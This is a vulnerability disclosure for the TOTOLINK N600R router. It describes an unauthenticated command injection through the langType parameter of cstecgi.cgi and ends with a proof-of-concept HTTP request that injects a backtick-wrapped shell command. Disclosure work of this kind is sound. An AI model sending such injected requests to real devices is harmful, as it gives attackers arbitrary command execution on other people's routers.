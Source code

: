 # Information



Vendor of the products:  Shenzhen Shengshi Zhongtang Technology Co., Ltd..(TOTOLINK)

Vendor's website:  [TOTOLINK](https://totolink.tw/)

Reported by:  Wang Jinshuai(3265296623@qq.com),   Tang Bingheng(2640807724@qq.com)

Affected products:  TOTOLINK N600R

Affected firmware version:  V4.3.0cu.7866_B20220506

Firmware download address:  [N600R 雙倍飆速無線分享器｜TOTOLINK 台灣](https://totolink.tw/support_view/N600R)



# Overview

The vulnerability resides in the /web_cste/cgi-bin/cstecgi.cgi binary. The sub_4159F8 routine obtains user-supplied input from the frontend and concatenates it into the argument of the system() call without proper validation or sanitization, resulting in a pre-authentication command injection flaw. An unauthenticated attacker can submit specially crafted payloads to execute arbitrary system commands.



# Vulnerability details

Through analysis of the /web_cste/cgi-bin/cstecgi.cgi binary that provides the device’s web service, a pre-authentication command injection vulnerability was identified. Around line 260 in main, the program matches the user input against the string setting/setLanguageCfg, and upon a match, execution branches to approximately line 340.

![image-20250828151423665](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281514696.png)

It then consults the set_handle_t dispatch table to resolve the corresponding handler based on the matched value and invokes it.

![image-20250828151749581](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281517612.png)

The setLanguageCfg entry resolves to the handler at sub_415840.

![image-20250828152903482](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281529503.png)

At approximately line 405 in main, the resolved handler is retrieved and invoked.

![image-20250828152807766](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281528787.png)

The variable Var receives client-supplied data via the langType parameter and is directly concatenated into v5 using sprintf(). Due to the lack of strict input validation, an attacker can leverage backtick-based command substitution to execute arbitrary commands.

![image-20250826153724887](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130214.png)



# POC

```python
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 73
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
"topicurl":"setting/setLanguageCfg",
"langType":"`ls -l > ../123.txt`"
}
```

# Effect Demonstration

![image-20250826153644908](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130729.png)



![image-20250826153629484](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130868.png)